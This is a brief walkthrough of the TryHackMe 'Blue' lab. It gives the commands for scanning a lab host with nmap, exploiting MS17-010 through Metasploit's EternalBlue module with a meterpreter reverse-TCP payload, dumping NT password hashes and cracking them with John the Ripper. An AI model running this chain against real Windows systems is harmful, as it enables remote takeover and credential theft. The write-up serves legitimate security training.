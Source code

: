 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate



`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

`cd C:\`

`dir "flag*" /s`

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
